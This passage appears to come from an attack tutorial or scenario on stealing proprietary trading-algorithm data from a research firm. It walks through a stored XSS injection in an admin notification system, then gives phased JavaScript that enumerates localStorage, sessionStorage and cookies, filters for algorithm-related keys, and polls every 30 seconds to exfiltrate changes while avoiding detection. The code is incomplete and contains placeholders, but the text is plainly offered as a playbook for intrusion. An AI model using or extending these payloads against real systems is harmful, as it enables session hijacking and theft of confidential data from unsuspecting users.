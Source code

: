 But you need systematic approaches that work regardless of specific page structure.

Test payload injection in the admin notification system:

Notification text: `Algorithm performance update: <script>/* payload here */</script>`

The notification system executes your JavaScript in the context of every researcher's browser when they view notifications. This provides access to:
- All open browser tabs in the same domain  
- Authentication cookies and session tokens
- Client-side algorithm development tools
- Real-time trading dashboards and controls

But extraction requires understanding what algorithm data actually looks like in browser memory.

### Systematic Algorithm Data Identification and Extraction

You have JavaScript execution in researcher browsers, but you don't know what algorithm data looks like or where it's stored. Modern web applications keep data in JavaScript objects, LocalStorage, SessionStorage, IndexedDB, and DOM elements. You need systematic approaches to find and extract the valuable information.

[PLACEHOLDER: Client-side data discovery and extraction methodology. Purpose: Systematically identifies all client-side data storage mechanisms in web applications, searches for algorithm-related data patterns, and extracts structured information while maintaining stealth and avoiding detection. Input: JavaScript execution context in target web application with researcher authentication. Output: Structured extraction of algorithm source code, parameters, performance data, and development artifacts from browser memory and storage.]

Build reconnaissance payloads that systematically map client-side data:

**Phase 1: Storage Enumeration**
```javascript
// Scan all client-side storage mechanisms
var dataMap = {
    localStorage: Object.keys(localStorage),
    sessionStorage: Object.keys(sessionStorage),
    cookies: document.cookie.split(';'),
    domStorage: /* scan DOM for data attributes */,
    windowVars: Object.keys(window).filter(/* algorithm patterns */)
};
```

**Phase 2: Content Analysis**
```javascript
// Look for algorithm-related patterns
var algorithmData = {};
dataMap.localStorage.forEach(key => {
    if (key.match(/algo|argos|trading|strategy/i)) {
        algorithmData[key] = localStorage.getItem(key);
    }
});
```

**Phase 3: Real-time Monitoring**
```javascript
// Monitor for algorithm updates
setInterval(() => {
    /* check for new algorithm data */
    /* extract and exfiltrate changes */
}, 30000);
```
